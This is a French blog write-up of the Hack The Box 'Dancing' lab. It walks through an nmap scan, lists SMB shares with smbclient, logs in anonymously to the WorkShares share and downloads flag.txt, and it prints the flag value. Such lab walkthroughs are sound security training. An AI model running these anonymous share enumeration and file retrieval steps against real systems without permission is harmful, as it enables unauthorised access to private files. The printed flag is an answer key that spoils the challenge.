 ```yaml
---
title: Starting Point Dancing - Hack the Box 
date: 2025-02-25
tags: [HackTheBox, SMB, VeryEasy]
categories: writeups
keywords: 'SMB Hack the box'
description: Box Starting Point - Hack The Box 
cover: images/writeups/Dancing/image.png
top_img: /images/cyberpunk-red.jpg
toc: true
toc_number: true
---
```


#### Introduction
Le **protocole SMB (Server Message Block)** est un **protocole de communication client-serveur** principalement utilisé pour le **partage de fichiers** et d'autres ressources sur un réseau. Il permet aux applications de lire et d'écrire dans des fichiers et de demander des services auprès de programmes serveurs, notamment sur des systèmes d'exploitation Windows. SMB est aussi utilisé pour accéder à des ressources partagées comme des **systèmes de fichiers**, **imprimantes**, **ports série**, et plus encore.

#### Vue d'ensemble du protocole SMB
Le protocole SMB permet de **partager des fichiers** entre des machines, ce qui le rend utile pour accéder à des fichiers et répertoires sur des ordinateurs connectés en réseau. Il fonctionne principalement sur le **port TCP 445** pour la communication sécurisée. Les anciennes versions de SMB (comme SMBv1) pouvaient également utiliser le port 139.

### Résultats du scan Nmap
Pour commencer, un scan **Nmap** a été effectué sur le **port 445** de l'adresse IP cible **10.129.41.30** afin de détecter la disponibilité du service SMB.

```bash
┌──(jolan㉿jolan)-[~]
└─$ nmap -p 445 -Pn -sV 10.129.41.30
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-11 09:39 CET
Nmap scan report for 10.129.41.30
Host is up.

PORT    STATE    SERVICE      VERSION
445/tcp filtered microsoft-ds

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.29 seconds
```

Le résultat montre que le port **445** est **filtré**, ce qui signifie que le service SMB est probablement présent, mais il est peut-être protégé par un pare-feu ou d'autres mesures de sécurité.

### Liste des Partages SMB Disponibles
Ensuite, l'outil **smbclient** a été utilisé pour lister les partages disponibles sur la machine cible **10.129.41.30**.

```bash
┌──(jolan㉿jolan)-[~]
└─$ smbclient -L 10.129.41.30
Password for [WORKGROUP\jolan]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.41.30 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Plusieurs partages SMB sont disponibles :

- **ADMIN$** : Partage administratif, généralement utilisé pour l'administration à distance.
- **C$** : Partage par défaut du disque C:.
- **IPC$** : Partage de communication inter-processus utilisé pour la communication entre processus.
- **WorkShares** : Partage défini par l'utilisateur.

### Connexion aux Partages SMB
Pour accéder au partage **WorkShares**, la commande suivante a été utilisée avec un mot de passe vide (`-N`), ce qui signifie une connexion sans mot de passe :

```bash
smbclient //10.129.41.30/WorkShares -N
```

Cela a permis de se connecter avec succès au partage sans nécessiter de mot de passe.

### Navigation dans le Répertoire WorkShares
Une fois dans le répertoire **WorkShares**, la commande `ls` a été utilisée pour lister le contenu :

```bash
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

                5114111 blocks of size 4096. 1753896 blocks available
```

Le répertoire **James.P** a été trouvé, et après y être allé, le fichier suivant a été découvert :

```bash
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

                5114111 blocks of size 4096. 1753896 blocks available
```

Le fichier **flag.txt** semble contenir un indice ou un drapeau.

### Téléchargement du Flag
La commande `get` a été utilisée pour télécharger le fichier **flag.txt** sur la machine locale :

```bash
smb: \James.P\> get flag.txt /home/jolan/Bureau/flag.txt
getting file \James.P\flag.txt of size 32 as /home/jolan/Bureau/flag.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

Le fichier **flag.txt** a été téléchargé avec succès, et son contenu a été récupéré.

#### Contenu du Flag
Le contenu du **flag.txt** est :

```
5f61c10dffbc77a704d76016a22f1664
```

### Conclusion
Grâce à l'utilisation des outils **Nmap**, **smbclient** et de la navigation dans les répertoires, le protocole SMB a été exploité pour accéder aux ressources partagées, et un flag a été récupéré dans le répertoire **James.P**. Cela met en évidence l'importance de sécuriser les partages SMB pour éviter tout accès non autorisé aux ressources sensibles.
